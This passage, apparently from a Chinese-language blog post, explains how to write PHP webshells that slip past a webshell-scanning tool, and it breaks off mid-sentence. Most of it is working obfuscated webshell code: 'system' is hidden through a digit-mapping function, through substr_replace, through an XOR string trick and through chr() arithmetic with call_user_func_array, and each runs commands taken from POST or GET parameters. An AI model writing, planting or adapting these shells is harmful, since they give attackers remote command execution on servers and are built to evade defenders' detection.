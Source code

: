 一、自定义函数混淆字符串类型：

```plain
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

二、一维数组绕过：

```plain
$f = substr_replace("systxx","em",4);         //system（高危函数）
$z = array($array = array('a'=>$f($_GET['aabyss'])));
var_dump($z);
```

三、异或 + 变换参数绕过：

```plain
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的 WebShell 都能查杀，说明作者对参数变形和 PHP 参数调用的相关姿势烂熟于心啊哈哈

# 3# 查杀 ByPass

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```plain
//ASCII 编码解密后为 system 高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令：
